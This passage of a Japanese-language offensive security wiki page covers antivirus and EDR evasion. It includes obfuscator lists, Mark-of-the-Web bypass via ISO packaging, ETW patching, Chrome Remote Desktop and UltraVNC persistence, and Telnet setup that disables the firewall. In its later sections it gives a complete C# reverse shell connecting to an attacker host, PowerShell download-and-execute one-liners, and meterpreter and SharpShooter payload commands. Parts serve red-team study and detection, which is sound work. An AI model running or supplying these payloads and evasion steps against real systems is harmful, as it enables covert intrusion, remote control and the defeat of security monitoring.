   de4dot-cex -p crx Confused.clean.exe -o Confused.de4dot.exe
   ```
   Flags:
     • `-p crx` – ConfuserEx 2 プロファイルを選択
     • de4dot は control-flow flattening を解除し、元の namespace、クラス、変数名を復元して、定数文字列を復号します。

3.  Proxy-call stripping – ConfuserEx は、逆コンパイルをさらに困難にするため、直接のメソッド呼び出しを軽量なラッパー（別名 *proxy calls*）に置き換えます。**ProxyCall-Remover** で削除します:
   ```bash
   ProxyCall-Remover.exe Confused.de4dot.exe Confused.fixed.exe
   ```
   この手順の後、`Class8.smethod_10` などの不透明なラッパー関数ではなく、`Convert.FromBase64String` や `AES.Create()` などの通常の .NET API が確認できるはずです。

4.  手動クリーンアップ – 生成されたバイナリを dnSpy で実行し、大きな Base64 blob や `RijndaelManaged`／`TripleDESCryptoServiceProvider` の使用箇所を検索して、*本物の* payload を特定します。多くの場合、マルウェアは `<Module>.byte_0` 内で初期化される TLV エンコード済みのバイト配列として payload を保存しています。

この一連の処理により、悪意のあるサンプルを実行せずに実行フローを復元できます。オフラインのワークステーションで作業する際に役立ちます。

> 🛈  ConfuserEx は `ConfusedByAttribute` というカスタム属性を生成します。これは IOC として使用し、サンプルを自動でトリアージできます。

#### ワンライナー
```bash
autotok.sh Confused.exe  # wrapper that performs the 3 steps above sequentially
```

---

- [**InvisibilityCloak**](https://github.com/h4wkst3r/InvisibilityCloak)**: C# obfuscator**
- [**Obfuscator-LLVM**](https://github.com/obfuscator-llvm/obfuscator): このプロジェクトの目的は、[code obfuscation](<http://en.wikipedia.org/wiki/Obfuscation_(software)>)と改ざん防止によってソフトウェアのセキュリティを強化できる、[LLVM](http://www.llvm.org/)コンパイルスイートのオープンソースフォークを提供することです。
- [**ADVobfuscator**](https://github.com/andrivet/ADVobfuscator): ADVobfuscatorは、外部ツールを使わず、コンパイラも変更せずに、`C++11/14`言語を使ってコンパイル時に難読化コードを生成する方法を示します。
- [**obfy**](https://github.com/fritzone/obfy): C++ template metaprogramming frameworkによって生成される難読化された処理のレイヤーを追加し、アプリケーションをcrackしようとする人の作業を少し難しくします。
- [**Alcatraz**](https://github.com/weak1337/Alcatraz)**:** Alcatrazは、.exe、.dll、.sysなど、さまざまなPEファイルを難読化できるx64 binary obfuscatorです。
- [**metame**](https://github.com/a0rtega/metame): Metameは、任意の実行ファイル向けのシンプルなmetamorphic codeエンジンです。
- [**ropfuscator**](https://github.com/ropfuscator/ropfuscator): ROPfuscatorは、ROP (return-oriented programming) を使用する、LLVMがサポートする言語向けの細粒度なcode obfuscation frameworkです。ROPfuscatorは、通常の命令をROP chainに変換してアセンブリコードレベルでプログラムを難読化し、通常の制御フローに関する直感的な認識を覆します。
- [**Nimcrypt**](https://github.com/icyguider/nimcrypt): Nimcryptは、Nimで記述された.NET PE Crypterです。
- [**inceptor**](https://github.com/klezVirus/inceptor)**:** Inceptorは、既存のEXE/DLLをshellcodeに変換して読み込めます。

### LLVM compiler-assisted per-function self-masking

implant全体をスリープ中だけマスキングする代わりに、変更したLLVM X86 backendを使えば、選択した関数が非アクティブな間、常にXORマスキングされた状態にできます。Function Peekaboo PoCは、デマングルされた名前に`REG_`を含む関数を選択し、最終的なマシンコードの前後にposition-independentなentry/exit stubを挿入して、`.text`に共通のmasking handlerを1つ出力します。ソースレベルのシグネチャとWindows x64 calling conventionは変更されません。<sup>[[38]](#references)[[39]](#references)</sup>

#### Backend control-flow transformation

この変換は、instruction selectionと最適化の後に行う必要があります。すべての生成されたreturnを処理し、正確なx86レイアウトを把握する必要があるためです。pre-emissionの`MachineFunctionPass`で最後の`MachineInstr::isReturn()`を見つけ、それを削除して最終経路が追加されたepilogueにフォールスルーするようにします。それ以前のreturnは`JMP_1 handler`に置き換えます。各returnの前にある、コンパイラが生成したstack/frameの後処理は残し、return命令のみをリダイレクトします。<sup>[[38]](#references)[[39]](#references)</sup>

`X86AsmPrinter::emitFunctionBodyStart()`と`emitFunctionBodyEnd()`で関数ごとのstubを出力し、`emitEndOfAsmFile()`でhandlerを出力します。出力ステージ間で共有されるシンボルにより、prologueから後に出力されるepilogueへ分岐できます。手動でnear `je`を出力する場合は、`0F 84`の後に4バイトのMC expression `target - address_after_je`を書き込みます。handlerへのcallとjumpは、代わりに`MCInst`オブジェクト（`CALL64pcrel32`と`JMP_1`）として出力できます。何も変更していない未選択の関数に対して、passは`false`を返す必要があります。PoCはこの場合に誤って`true`を返します。<sup>[[38]](#references)[[39]](#references)</sup>

#### Metadata and pre-CRT initialization

PoCは、XOR keyと、loaderによってrelocationされる関数ポインターおよび実行時の長さを含む16バイトのレコードを`.funcmeta`に配置します。Cのフィールドは`uint32_t`ですが、handlerはレコードのオフセット`+8`からQWORDを読み込み、長さとそのpaddingを消費して、レコードを`0x10`ずつ進めます。PEのセクション名は8バイトしか使えないため、実行時のlookupでは`.funcmet`として認識されます。外部patcherは実行可能な`.stub`を追加し、stub内に元のentry-point RVAを保存してから`AddressOfEntryPoint`を付け替えます。PIC stubは`gs:[0x60]` → `[PEB+0x10]`からimage baseを取得し、PE32+のimportをたどって、すでにimportされている`VirtualProtect`を解決し、CRTより前に実行されます。<sup>[[38]](#references)[[39]](#references)</sup>

初期化処理では、`gs:[0xE8]`にsentinelを設定し、metadata内のすべての関数を呼び出します。常に読み取り可能なprologueは、関数の開始位置を`gs:[0xF0]`に記録し、sentinelを検出すると、まだ暗号化されていないbodyをスキップします。その後、epilogueは`call handler`を実行します。handlerが13個のregister（`0x68`バイト）を保存した後、`[rsp+0x68]`にあるreturn addressが変換後の関数の終端となるため、`end - start`をmetadata recordに書き込めます。すべてのbodyをマスキングした後、stubはsentinelをクリアし、`ImageBase + original_entry_point_RVA`にjumpします。<sup>[[38]](#references)[[39]](#references)</sup>

通常のcallでは、prologueが同じ対称handlerを呼び出してbodyを復号します。最終経路は追加されたepilogueにフォールスルーし、それ以前のreturnはすべて共有handlerに直接jumpします。通常のepilogueも`call`ではなく`jmp handler`を使用するため、再マスキング後にhandlerの`ret`が元のcallerのreturn addressを消費し、関数の戻り値は`RAX`に保持されます。<sup>[[38]](#references)[[39]](#references)</sup>

#### Masking primitive and analysis indicators

handlerは現在のrecordを見つけ、固定長の可視prologue（このbuildでは`0x46`バイト）をスキップして、残りの領域を`PAGE_EXECUTE_READWRITE`に変更します。その後、低位のkey byteで1バイトずつXORし、最後に`PAGE_EXECUTE_READ`に設定します。この同じloopによって、entry時に復号され、通常のexit時に再び暗号化されます。<sup>[[38]](#references)[[39]](#references)</sup>

この設計を示す強いindicatorには、次のものがあります。<sup>[[38]](#references)[[39]](#references)</sup>

- 実行可能な`.stub`内にあるentry pointと、keyおよびrelocation済みの`.text` pointerを保持する`.funcmet` section。
- pre-CRTでのPEB、import table、section tableの解析と、それに続く各metadata pointer経由のcall。
- 同一の`call`/`pop` PIC prologueと、1つのhandlerにリダイレクトされた多数のreturn site。
- `gs:[0xE8]`、`gs:[0xF0]`、`gs:[0xF8]`への書き込みに続く、繰り返しの`VirtualProtect`による保護属性の変更と、imageにマップされた実行可能ページへのbyte単位のXOR書き込み。

これはmemory scanner回避であり、暗号学的な保護ではありません。patchされたファイルには元の平文のbodyが残っており、debuggerで`VirtualProtect`やXOR loopにbreakを設定すれば、実行中の関数をdumpできます。1バイトのXOR、読み取り可能なmetadata、固定の`0x46`境界により、オフラインでの復元も容易です。<sup>[[38]](#references)[[39]](#references)</sup>

> [!WARNING]
> PoCのTEB slotはthread-localですが、変更されたcode pageはprocess全体で共有されます。そのため、並行または再帰的なentryによって、別の呼び出しが実行中に命令が再び切り替わる可能性があります。また、例外やnonlocal exitによって再マスキングが回避される場合もあります。堅牢な実装では、状態遷移を同期し、`lpflOldProtect`経由で返された実際の保護属性を復元し、stubの長さをハードコードせず、x64のstack alignmentについて`call`と`jmp`の両方の経路を監査し、実行可能なbyteを書き換えた後に`FlushInstructionCache`を呼び出す必要があります。Microsoftは、実行可能コードを変更する場合、instruction-cache coherencyの維持を呼び出し側の責任と明示しています。<sup>[[38]](#references)[[39]](#references)[[40]](#references)</sup>

## SmartScreen & MoTW

インターネットから一部の実行ファイルをダウンロードして実行すると、この画面が表示されることがあります。

Microsoft Defender SmartScreenは、潜在的に悪意のあるアプリケーションの実行からエンドユーザーを保護するためのセキュリティ機構です。

<figure><figcaption></figcaption></figure>

SmartScreenは主にレピュテーションベースの方式で機能します。つまり、あまりダウンロードされていないアプリケーションをダウンロードするとSmartScreenが起動し、警告を表示してエンドユーザーによるファイルの実行を阻止します（More Info -> Run anywayをクリックすれば、ファイルを実行することはできます）。

**MoTW** (Mark of The Web)は、Zone.Identifierという名前の[NTFS Alternate Data Stream](<https://en.wikipedia.org/wiki/NTFS#Alternate_data_stream_(ADS)>)です。インターネットからファイルをダウンロードすると自動的に作成され、ダウンロード元のURLも記録されます。

<figure><figcaption><p>インターネットからダウンロードしたファイルのZone.Identifier ADSを確認する。</p></figcaption></figure>

> [!TIP]
> **信頼された**署名証明書で署名された実行ファイルでは、**SmartScreenは起動しない**ことに注意してください。

payloadにMark of The Webが付与されないようにする非常に効果的な方法は、ISOなどのコンテナに格納することです。これは、Mark-of-the-Web (MOTW)を**NTFS以外**のボリュームに適用**できない**ためです。

<figure><figcaption></figcaption></figure>

[**PackMyPayload**](https://github.com/mgeeky/PackMyPayload/)は、Mark-of-the-Webを回避するためにpayloadをコンテナに格納するツールです。

使用例：

```bash
PS C:\Tools\PackMyPayload> python .\PackMyPayload.py .\TotallyLegitApp.exe container.iso

+      o     +              o   +      o     +              o
    +             o     +           +             o     +         +
    o  +           +        +           o  +           +          o
-_-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-_-_-_-_-_-_-_,------,      o
   :: PACK MY PAYLOAD (1.1.0)       -_-_-_-_-_-_-|   /\_/\
   for all your container cravings   -_-_-_-_-_-~|__( ^ .^)  +    +
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-__-_-_-_-_-_-_-''  ''
+      o         o   +       o       +      o         o   +       o
+      o            +      o    ~   Mariusz Banach / mgeeky    o
o      ~     +           ~          <mb [at] binary-offensive.com>
    o           +                         o           +           +

[.] Packaging input file to output .iso (iso)...
Burning file onto ISO:
    Adding file: /TotallyLegitApp.exe

[+] Generated file written to (size: 3420160): container.iso
```

これは、[PackMyPayload](https://github.com/mgeeky/PackMyPayload/)を使ってISOファイル内にpayloadをパッケージし、SmartScreenをバイパスするデモです。

<figure><figcaption></figcaption></figure>

## ETW

Event Tracing for Windows（ETW）は、アプリケーションやシステムコンポーネントが**イベントをログに記録**できる、Windowsの強力なログ機構です。一方で、セキュリティ製品が悪意のある活動を監視・検知するために利用することもできます。

AMSIを無効化（バイパス）するのと同様に、ユーザースペースプロセスの**`EtwEventWrite`**関数を、イベントを記録せずに直ちに戻るようにすることも可能です。これは、メモリ内の関数にパッチを適用して直ちに戻るようにすることで、そのプロセスのETWログ記録を実質的に無効化します。

詳細は、**[https://blog.xpnsec.com/hiding-your-dotnet-etw/](https://blog.xpnsec.com/hiding-your-dotnet-etw/) と [https://github.com/repnz/etw-providers-docs/](https://github.com/repnz/etw-providers-docs/)**をご覧ください。<sup>[[33]](#references)[[34]](#references)</sup>


## C# Assembly Reflection

C#バイナリをメモリ内に読み込む手法は以前から知られており、AVに検知されずにpost-exploitationツールを実行する優れた方法として、今も広く使われています。

payloadはディスクに触れることなくメモリに直接読み込まれるため、プロセス全体に対するAMSIのパッチ適用だけを考慮すればよいことになります。

多くのC2フレームワーク（sliver、Covenant、metasploit、CobaltStrike、Havocなど）は、C# assembliesをメモリ内で直接実行する機能をすでに備えていますが、実行方法はいくつかあります。

- **Fork\&Run**

**新しい使い捨てプロセスを生成**し、そのプロセスにpost-exploitationの悪意あるコードをinjectして実行し、完了後に新しいプロセスを終了させます。この方法にはメリットとデメリットの両方があります。Fork and Run方式のメリットは、実行がBeacon implantプロセスの**外部**で行われることです。つまり、post-exploitationの処理中に問題が発生したり検知されたりしても、**implantが生き残る可能性が大幅に高くなります**。デメリットは、**Behavioural Detections**に検知される**可能性が高くなる**ことです。

<figure><figcaption></figcaption></figure>

- **Inline**

post-exploitationの悪意あるコードを**自身のプロセスに**injectします。これにより、新しいプロセスを作成してAVにスキャンされるのを避けられます。一方、payloadの実行に問題が起きると、クラッシュする可能性があるため、**beaconを失う可能性が大幅に高くなります**。

<figure><figcaption></figcaption></figure>

> [!TIP]
> C# Assemblyの読み込みについて詳しく知りたい場合は、こちらの記事[https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/](https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/)と、InlineExecute-Assembly BOF（[https://github.com/xforcered/InlineExecute-Assembly](https://github.com/xforcered/InlineExecute-Assembly)）をご覧ください。

C# Assembliesは**PowerShellから**読み込むこともできます。[Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader)と[S3cur3th1sSh1tの動画](https://www.youtube.com/watch?v=oe11Q-3Akuk)をご覧ください。

## .NETツールのNativeAOT WebAssemblyへの再パッケージ化（WasmForge）

通常の`execute-assembly`手法では、識別可能なMSILが残り、最終的にCLRが初期化されます。**WasmForge**は実行基盤そのものを変更します。C#プロジェクトを実験的なNativeAOT-LLVM WASIターゲットに移行し、WebAssemblyに事前コンパイルしたうえで、WazeroベースのWindows PE hostにそのモジュールを埋め込みます。生成されたプロセスは対象のCLR、JIT、`dotnet` hostを必要としないため、マネージドassembly名、CLRの読み込み、AMSI、または.NET ETWだけに基づくルールでは直接可視化できません。これは回避・パッケージ化の手法であり、権限境界をバイパスするものではありません。guestは元のツールと同じ権限を持ち、OS上での動作も観測可能です。<sup>[[44]](#references)[[45]](#references)</sup>

### C#プロジェクトのビルド

推奨されるビルド方法は、プロジェクトのDocker環境を使うことです。この環境には.NET 10 SDK、NativeAOT-LLVM workload、WASI SDK 24.0、linker、署名に必要な依存関係が含まれています。`.csproj`は自動検出され、単一のビルドコマンドで移行、互換性パッチの適用、WASMのコンパイル、PEのforge、署名が行われます。<sup>[[45]](#references)</sup>

```bash
# From the WasmForge repository
make docker-build
make docker-run DOCKER_SRC=/path/to/Seatbelt DOCKER_PROJECT=seatbelt

# Equivalent direct build when all prerequisites are installed
GOOS=windows GOARCH=amd64 ./wasmforge build --win32-apis \
  -o seatbelt.exe /path/to/Seatbelt/Seatbelt/
```

トラブルシューティングや生成コードのレビューでは、プロセスを `wasmforge dotnet-migrate <dir>`、`wasmforge dotnet-patch <dir>`、`dotnet publish -c Release -r wasi-wasm`、最後に `wasmforge build --wasm <module> --nativeaot --win32-apis -o <output.exe>` に分けます。ビルドイメージでは、WASI Preview 2 の component encoding を避け、埋め込みランタイムが想定するプレーンなモジュールを生成するために、`wasm-component-ld` wrapper も使用します。<sup>[[44]](#references)[[45]](#references)</sup>

### wasm32 C# と x64 Win32 のブリッジ

これは透過的な再コンパイルではありません。NativeAOT-WASI では Windows 向けの BCL 機能が不足しているか、動作が変更されています。また、wasm32 の guest は通常4バイトのポインタースロットを割り当てますが、x64 API は8バイトのポインターを返す場合があります。WasmForge は、次の生成レイヤーで両方の問題に対処します。<sup>[[44]](#references)</sup>

1. ソースパッチャーは AOT 固有の意味上の差異を修正し、サポートされていない registry、pipes、WMI、identity、directory-service、file-version、LSA などの呼び出しを `Wf*` helper にリダイレクトします。
2. P/Invoke scanner は NativeAOT の `DirectPInvoke` マッピングを生成し、`[DllImport]` 呼び出しが、guest 内で宣言された DLL を動的に読み込むのではなく、リンク済みの C bridge symbol にバインドされるようにします。
3. ホストに渡すポインターには、C# では `ulong`、C では `uint64_t` を使用します。汎用 dispatcher は呼び出しをホストの Win32 handler に転送します。`out8_mask` は、本来8バイトの出力スロットで上位半分を保持する必要があるものを示します。マークされていない wasm32 形式の出力には snapshot/restore による保護を適用し、x64 の書き込みによって隣接する4バイトが破損しないようにします。
4. 専用のホストブリッジは、LSA ticket-cache へのアクセス、構造化された結果を伴う Kerberos/BCrypt 操作、TCP KDC 通信、LDAP query など、汎用 syscall dispatch に適さない操作を処理します。

たとえば、`version.dll!VerQueryValueW` 用の wrapper は4つのホストアドレスを渡し、値のポインターと長さが8バイトの出力スロットであるため、ビット2と3（`0xC`）を設定します。wrapper 自体は汎用のままで、DLL 名、export 名、引数、mask を `wf_call_v2` に渡します。ホストはポインターを変換して、ネイティブ API を呼び出します。<sup>[[44]](#references)</sup>

```c
uint32_t version_VerQueryValueW_v2(uint64_t block, uint64_t subblock,
    uint64_t value_out, uint64_t length_out) {
    return (uint32_t)wf_call_v2("version.dll", "VerQueryValueW", 4,
        0xC, block, subblock, value_out, length_out);
}
```

### 制限事項と検知の着眼点

リフレクションを多用するコード、動的なアセンブリ読み込み、任意のネイティブコールバック、WASMメモリに返される複雑なx64構造体には、ツールごとのパッチが必要になる場合や、まったく動作しない場合があります。汎用WASI Preview 2ソケットもno-opスタブに到達する可能性があるため、対応ツールではプロトコル固有のホストshimを使用します。機能が同等だと決めつけず、各コマンドをネイティブビルドと照合して検証してください。<sup>[[44]](#references)[[45]](#references)</sup>

この手法はテレメトリを移すものであり、payloadを見えなくするものではありません。検知の着眼点は、WASMモジュールを含む、または展開するPE、Wazeroのようなランタイムの挙動、ホストとゲスト間の異常なメモリ割り当てやコピー、汎用的なWin32の直接呼び出し、署名やPEリソースの異常、さらにその結果生じるAPI呼び出しやネットワークトラフィックに移る可能性があります。そのため、CLR読み込み、AMSI、.NET ETWのイベントがないことを、プロセスが無害である証拠として扱うべきではありません。<sup>[[44]](#references)</sup>

## ほかのプログラミング言語の使用

[**https://github.com/deeexcee-io/LOI-Bins**](https://github.com/deeexcee-io/LOI-Bins)で提案されているように、**攻撃者が管理するSMB共有上にインストールされたインタープリター環境**に侵害済みマシンからアクセスできるようにすることで、ほかの言語を使って悪意のあるコードを実行できます。

SMB共有上のインタープリターバイナリと環境へのアクセスを許可すると、侵害済みマシンの**メモリ内でこれらの言語による任意のコードを実行**できます。

リポジトリによると、Defenderは引き続きスクリプトをスキャンしますが、Go、Java、PHPなどを利用することで、**静的シグネチャを回避する柔軟性が高まります**。これらの言語で難読化していないランダムなreverse shellスクリプトを使ったテストでは、成功が確認されています。

## 静的解析回避のためのWebAssembly再ホスティング

<a id="bridging-linear-memory-to-native-apis"></a>
<a id="per-build-wasm-vm-polymorphism"></a>
<a id="camouflaging-the-outer-go-executable"></a>

{{#ref}}
virtualized-payload-execution.md#webassembly-re-hosting-for-static-analysis-evasion
{{#endref}}

## TokenStomping

Token stompingは、EDRやAVなどのセキュリティ製品のアクセストークンを操作します。トークンの権限を下げると、プロセスを実行状態に保ちながら、権限が必要な検査や修復の操作を妨げられる場合があります。

これを防ぐには、Windowsが**外部プロセスによる**セキュリティプロセスのトークンハンドル取得を防止できます。

- [**https://github.com/pwn1sher/KillDefender/**](https://github.com/pwn1sher/KillDefender/)
- [**https://github.com/MartinIngesen/TokenStomp**](https://github.com/MartinIngesen/TokenStomp)
- [**https://github.com/nick-frischkorn/TokenStripBOF**](https://github.com/nick-frischkorn/TokenStripBOF)

## 信頼されたソフトウェアの使用

### Chrome Remote Desktop

[**こちらのブログ記事**](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide)で説明されているように、被害者のPCにChrome Remote Desktopを導入し、それを使って乗っ取りと永続化を行うのは簡単です。<sup>[[35]](#references)</sup>
1. https://remotedesktop.google.com/ からダウンロードし、「Set up via SSH」をクリックしてから、Windows用のMSIファイルをクリックしてダウンロードします。
2. 被害者の環境でインストーラーをサイレント実行します（管理者権限が必要です）。`msiexec /i chromeremotedesktophost.msi /qn`
3. Chrome Remote Desktopのページに戻って「次へ」をクリックします。ウィザードで認証を求められたら、「Authorize」ボタンをクリックして続行します。
4. 必要な箇所を変更して、指定されたコマンドを実行します。`"%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe" --code="YOUR_UNIQUE_CODE" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=%COMPUTERNAME% --pin=111111`（`--pin`パラメーターを使うと、GUIを使わずにPINを設定できます。）
 

## 高度な回避

{{#ref}}
virtualized-payload-execution.md
{{#endref}}

回避は非常に複雑なテーマです。1つのシステム内でも、さまざまなテレメトリソースを考慮しなければならないことがあり、成熟した環境で完全に検知を免れるのはほぼ不可能です。

対峙する環境には、それぞれ独自の強みと弱点があります。

高度な回避手法への足がかりを得るために、[@ATTL4S](https://twitter.com/DaniLJ94)によるこちらの講演をぜひご覧ください。


{{#ref}}
https://vimeo.com/502507556?embedded=true&owner=32913914&source=vimeo_logo
{{#endref}}

こちらも、[@mariuszbit](https://twitter.com/mariuszbit)によるDefense in Depthにおける回避についての素晴らしい講演です。


{{#ref}}
https://www.youtube.com/watch?v=IbA7Ung39o4
{{#endref}}

## **旧来の手法**

### **Defenderが悪意ありと判定する箇所を調べる**

[**ThreatCheck**](https://github.com/rasta-mouse/ThreatCheck)を使うと、**Defenderがどの部分を悪意ありと判定するか**を特定し、該当部分を分割して取り出すまで、**バイナリの一部を削除**できます。\
**同じことを行う**もう1つのツールは[**avred**](https://github.com/dobin/avred)で、[**https://avred.r00ted.ch/**](https://avred.r00ted.ch/)ではWeb上でこのサービスが提供されています。

### **Telnetサーバー**

Windows 10より前のWindowsには、管理者としてインストールできる**Telnetサーバー**が付属していました。次のように実行します。

```bash
pkgmgr /iu:"TelnetServer" /quiet
```

システム起動時に**開始**し、今すぐ**実行**してください:

```bash
sc config TlntSVR start= auto obj= localsystem
```

**telnetのポートを変更**（stealth）してファイアウォールを無効化:

```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```

### UltraVNC

ここからダウンロードします: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (setup ではなく、bin のダウンロードを選びます)

**ホスト上で**: _**winvnc.exe**_ を実行し、サーバーを設定します。

- _Disable TrayIcon_ オプションを有効にする
- _VNC Password_ にパスワードを設定する
- _View-Only Password_ にパスワードを設定する

次に、バイナリ _**winvnc.exe**_ と新しく作成されたファイル _**UltraVNC.ini**_ を**被害者の環境**に移動します。

#### **Reverse connection**

**攻撃者**は、自分の**ホスト上で**バイナリ `vncviewer.exe -listen 5900` を**実行**し、逆向きの **VNC connection** を受け入れられる状態にします。次に、**被害者の環境で** winvnc デーモン `winvnc.exe -run` を起動し、`winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900` を実行します。

**警告:** ステルス性を保つため、以下の操作は避けてください。

- すでに実行中の場合は `winvnc` を起動しないでください。起動すると[ポップアップ](https://i.imgur.com/1SROTTl.png)が表示されます。`tasklist | findstr winvnc` で実行中か確認してください。
- 同じディレクトリに `UltraVNC.ini` がない状態で `winvnc` を起動しないでください。[設定ウィンドウ](https://i.imgur.com/rfMQWcf.png)が開きます。
- ヘルプを表示するために `winvnc -h` を実行しないでください。[ポップアップ](https://i.imgur.com/oc18wcu.png)が表示されます。

### GreatSCT

ここからダウンロードします: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```

GreatSCT 内部:

```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```

次に `msfconsole -r file.rc` で**リスナーを起動**し、以下で **xml payload** を実行します:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

**現在のDefenderはプロセスをすぐに終了させます。**

### 独自のreverse shellをコンパイルする

https://medium.com/@Bank_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### 最初のC# Revershell

次のコマンドでコンパイルします:

```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```

次のように使用します:

```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

### C# コンパイラを使用する

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```

[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

自動ダウンロードと実行:

```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```


{{#ref}}
https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f
{{#endref}}

C# obfuscator の一覧: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++

```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

- [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
- [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
- [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
- [https://github.com/l0ss/Grouper2](https://github.com/l0ss/Grouper2)
- [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
- [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### injector のビルドに Python を使用する例:

- [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### その他のツール

```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
